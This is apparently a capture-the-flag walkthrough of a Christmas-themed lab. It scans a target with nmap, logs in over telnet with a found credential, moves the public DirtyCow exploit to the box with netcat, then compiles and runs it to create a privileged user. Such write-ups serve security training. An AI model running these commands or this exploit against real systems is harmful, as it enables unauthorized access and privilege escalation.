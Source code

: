 # Coal for Christmas

- Hi Santa, hop in your sleigh and deploy this machine!
	  no answer needed

- nmap <TARGET_IP>

	  no answer needed

	- `nmap <TARGET_IP>`

- What old, deprecated protocol and service is running?

	- `telnet`

- What credential was left for you?

	- `telnet <TARGET_IP> 23`
	- `clauschristmas`

- What distribution of Linux and version number is this server running?

	- `uname -a`
	- `Ubuntu 12.04`

- Who got here first?

	- `cat cookies_and_milk.txt`
	- `grinch`

- This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

	  no answer needed

	- [dirtycow](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- On your machine `nc -lnvp 4444 < dirty.c`
	- On target `nc -w 3 <YOUR_IP> 4444 > dirty.c`
	
- What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	- `gcc -pthread dirty.c -o dirty -lcrypt`

- Run the commands to compile the exploit, and run it.
What "new" username was created, with the default operations of the real C source code?
	- `./dirty` and then enter the password you've chosen
	- `firefart`

- What is the MD5 hash output?

	- `cat message_from_the_grinch.txt`
	- `touch coal`
	- `tree | md5sum`
	- `********************************`
